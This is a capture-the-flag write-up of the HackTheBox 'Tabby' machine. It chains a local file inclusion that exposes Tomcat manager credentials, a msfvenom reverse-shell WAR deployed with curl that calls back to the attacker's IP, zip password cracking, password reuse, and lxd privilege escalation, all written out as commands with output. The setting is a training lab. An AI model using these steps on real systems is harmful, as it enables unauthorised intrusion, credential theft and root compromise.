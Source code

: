 ```yaml
---
Category: B2R
Difficulty: Easy
Platform: HackTheBox
Retired: true
Status: 3. Complete
Tags:
  - LFI
  - WAR
  - cracking-zip-files
  - lxd-privesc
  - tomcat
  - Linux
---
```

### Improved skills

- LFI
- Tomcat WAR exploitation
- Cracking .zip files
- lxd Privilege Escalation

### Used tools

- nmap
- gobuster
- msfvenom
- LinEnum.sh
- fcrackzip

---

## Introduction & Foothold

>[!summary]
>**Tabby** is an *easy* HTB machine focused on the manually exploitation of a **Tomacat** server using a **.WAR** reverse shell and the exploitation of a misconfigured group permission which allow to escalate to root abusing **lxd** rights.

Let’s start as always with an **nmap** scan:

```bash
root@kali:~/HackTheBox# nmap -Pn -sCV -p22,80,8080 -oN nmap/Basic_10.10.10.194.nmap 10.10.10.194
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat 9.0.31
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find out that there are three services running on the box, **two of which** are **web servers** (an *Apache httpd 2.4.41* and an *Apache Tomcat 9.0.31*).

Visiting the first site we discover that the **host** of the box is ***megahosting.htb***. In order to properly enumerate the box we need to resolve it correctly

`cat "10.10.10.194    megahosting.it" >> /etc/hosts`

Now that we are effectively ready, let’s start enumerating every page of the first web server.

![2020-06-22-14-48-13.png](../../zzz_res/attachments/2020-06-22-14-48-13.png)

After few minutes I found the http://megahosting.htb/news.php?file=statement page, which results to be vulnerable to **Local File Inclusion** (LFI).

![2020-06-22-14-59-19.png](../../zzz_res/attachments/2020-06-22-14-59-19.png)

![2020-06-22-14-59-41.png](../../zzz_res/attachments/2020-06-22-14-59-41.png)

Because we got an LFI vulnerability, the logical next step was to try to exploit it in order to get a Remote Code Execution, but unfortunately none of the existing methods worked… so I decided to start to enumerate the second web server (**tomcat**), looking for another entry point.

```bash
root@kali:~/HackTheBox# gobuster dir -u http://10.10.10.194:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.html,.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.194:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/06/22 16:05:04 Starting gobuster
===============================================================
/index.html (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
```

Among all the various directories, ***/manager*** immediately caught my attention: trying to logging in, the server reveals which file contains the credentials, allowing us to use the **LFI** to get them.

![2020-06-22-16-11-37.png](../../zzz_res/attachments/2020-06-22-16-11-37.png)

Finding ***tomcat-users.xml*** was a pain as the installation of the web server was done *without following standards paths and rules*, however, after a couple of hours I was able to read the file, located in ***/usr/share/tomcat9/etc/tomcat-users.xml***

![2020-06-22-16-45-05.png](../../zzz_res/attachments/2020-06-22-16-45-05.png)

![2020-06-22-16-45-57.png](../../zzz_res/attachments/2020-06-22-16-45-57.png)

Good! Now we are able to login into the ***/manager*** directory and proceeds.

Since the tomcat user are assigned the roles of **admin-gui** and **manager-script**, he has the permission to access the *host-manager webapp via web gui* (from which nothing can be done) but also to interact ***via cli with the manager webapp***, which allows us to upload **.war files** to the server (see the [official documentation](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)).

Once we find the way, let’s **create our reverse shell** through **msfconsole**

```bash
root@kali:/var/www/html#  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=9876 -f war > maoutis.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes

root@kali:/var/www/html# ls -al maoutis.war 
-rw-r--r-- 1 root root 1095 Jun 29 19:08 maoutis.war
```

load it on the server

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' -T maoutis.war 'http://10.10.10.194:8080/manager/text/deploy?path=/maoutis'
OK - Deployed application at context path [/maoutis]
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/maoutis:running:0:maoutis
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
and run it to get access as *tomcat* user.
```

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/maoutis/
```

```bash
root@kali:~# nc -lvp 9876
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ export TERM=screen
CTRL+Z
root@kali:~/HackTheBox# stty raw -echo
root@kali:~/HackTheBox# fg

tomcat@tabby:/var/lib/tomcat9$
```

## Lateral Movement to ash

Once gained the shell, further enumeration reveals that the user of the box is **ash**.

Running **LinEnum.sh** we discovered a **.zip backup file** inside ***/var/www/html/files/*** which require to be cracked in order to be unzipped. Let’s use **fcrackzip** in order to crack the archive.

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' 16162020_backup.zip 

PASSWORD FOUND!!!!: pw == admin@it
```

Password found! While inside the archive we didn’t find anything useful, trying to use the password to switch to **ash** reveals that the same *password has been reused*.

```bash
tomcat@tabby:/var/www/html/files$ su ash                                                                             
Password: admin@it                                                                                                           
ash@tabby:/var/www/html/files$ 
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Well done! We are ash!

## Privilege Escalation

Running again **LinEnum.sh** it reveals that we are members of the **lxd group** and that exists a way to ***abuse this permission*** in order *to became root*. Searching on Google I found [this](https://www.hackingarticles.in/lxd-privilege-escalation/) article, which describes how an account on the system that is a member of the lxd group is able to escalate the root privilege by exploiting the features of LXD.

1. **Download** the **lxd-alpine-builder** locally on the kali machine and built it as root
    
    ```bash
    $git clone https://github.com/saghul/lxd-alpine-builder.git
    $cd lxd-alpine-builder
    $sudo bash build-alpine
    ```
    
    Probably will appear errors like *“tar: Ignoring unknow …”*. Don’t worry and continue     with the privilege escalation process.
    
2. **Upload** the **.tar** file on the **ash home** directory and **import** it **inside lxc**
    
    ![2020-06-29-23-27-45.png](../../zzz_res/attachments/2020-06-29-23-27-45.png)
    

Once finished, we will be root!

# Trophy

>[!quote]
>If you can't give me poetry, can't you give me poetical science?
>
>\- Ada Lovelace

